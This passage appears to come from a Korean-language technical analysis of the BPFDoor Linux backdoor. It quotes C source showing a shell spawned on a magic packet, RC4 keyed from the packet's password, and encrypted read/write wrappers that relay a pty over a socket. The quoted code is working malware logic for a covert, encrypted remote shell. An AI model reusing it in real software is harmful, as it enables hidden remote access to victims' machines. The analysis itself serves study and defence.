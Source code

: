 ```c
                if (scli > 0)
                        shell(scli, NULL, NULL);
                break;
        case 2:  // UDP ping response
                mon(bip, mp->port);
                break;
}
```

### 7. RC4 기반 암복호화 통신

- BPFDoor는 통신 보안과 은폐를 위해 RC4 스트림 암호화를 사용한다. RC4는 키 스트림을 기반으로 입력 데이터를 XOR하여 암복호화를 수행한다.
• 매직 패킷의 pass 값을 RC4 키로 사용하여 송수신용 컨텍스트를 각각 초기화한다.

```c
rc4_init(mp->pass, strlen(mp->pass), &crypt_ctx);
rc4_init(mp->pass, strlen(mp->pass), &decrypt_ctx);
``````

• 이후 통신 과정에서 `cwrite()`와 `cread()` 함수가 각각 `write()`/`read()` 전에 RC4 처리를 수행한다.

- 송신 시에는 데이터를 RC4로 암호화한 후 전송, 수신 시에는 암호화된 데이터를 복호화하여 터미널에 출력한다.

```c
int cwrite(int fd, void *buf, int count) {
    uchar*tmp = malloc(count);
    memcpy(tmp, buf, count);
    rc4(tmp, count, &crypt_ctx);
    int ret = write(fd, tmp, count);
    free(tmp);
    return ret;
}

int cread(int fd, void *buf, int count) {
    int i = read(fd, buf, count);
    if (i > 0)
        rc4(buf, i, &decrypt_ctx);
    return i;
}

// 위 코드와 동일한 while문
while (1) {
    // ...
    FD_ZERO(&fds);
    FD_SET(pty, &fds);
    FD_SET(sock, &fds);
    if (select((pty > sock) ? (pty+1) : (sock+1),
            &fds, NULL, NULL, NULL) < 0)
    {
            break;
    }
    if (FD_ISSET(pty, &fds)) {
            int count;
            count = read(pty, buf, BUF);
            if (count <= 0) break;
            if (cwrite(sock, buf, count) <= 0) break;
    }
    if (FD_ISSET(sock, &fds)) {
            int count;
            unsigned char *p, *d;
            d = (unsigned char *)buf;
            count = cread(sock, buf, BUF);
            if (count <= 0) break;
            // ...
    }
}
```